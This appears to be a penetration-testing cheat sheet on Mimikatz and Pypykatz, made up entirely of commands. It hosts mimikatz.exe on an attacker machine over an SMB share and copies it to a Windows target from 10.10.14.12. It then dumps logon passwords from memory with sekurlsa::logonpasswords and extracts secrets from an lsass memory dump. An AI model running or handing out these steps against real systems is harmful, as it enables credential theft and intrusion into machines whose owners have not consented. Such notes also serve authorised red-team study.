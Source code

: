 # Mimikatz

## Mimikatz

Locate
```
locate mimikatz.exe
```

Host mimikatz - x86
```
cd /usr/share/windows-resources/mimikatz/Win32/
$ impacket-smbserver share $(pwd) -smb2support
```

Host mimikatz - x64
```
cd /usr/share/windows-resources/mimikatz/x64/
$ impacket-smbserver share $(pwd) -smb2support
```


Copy to Target
```
xcopy \\10.10.14.12\share\mimikatz.exe C:\Temp\mimikatz\
```



PowerShell
```
.\mimikatz "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

CMD
```
mimikatz "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```



## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```